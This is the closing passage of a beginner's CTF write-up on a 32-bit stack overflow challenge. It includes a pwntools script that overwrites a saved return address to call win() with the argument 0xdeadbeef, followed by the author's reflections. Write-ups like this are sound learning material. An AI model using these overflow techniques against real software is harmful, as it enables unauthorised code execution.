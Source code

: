 ```c++
```

The exploit this time is the same as before: we just need to ensure the parameter that is passed to `win()` is `0xdeadbeef`. Since we are writing to `local_24`, we simply write `0x24` bytes of junk, and then the address to `win()`, and then to pass an argument, we write 1 byte of junk and then the value we want the argument to take. Putting that all together, we get:
```py
from pwn import *

binary = context.binary = ELF('./pwnme')

p = process(binary.path)
payload = b''
payload += 0x24 * b'A'
payload += p32(binary.sym.win)
payload += p32(0)
payload += p32(0xdeadbeef)

p.sendlineafter("Level 3: Args too?\n", payload)
p.interactive()
```
Woo! We did it! At this point, I don't fully know how to do the rest of the challenges, so this is where I tap out. Thanks for reading along!

## Reflections

I really liked that these first few challenges were so beginner-friendly given that this was my first exposure to a CTF. I feel like I have a basic understanding of how to use PWN, though there is certainly a lot more for me to learn. Thanks for following along and I hope this post was at least a bit insightful to anyone reading!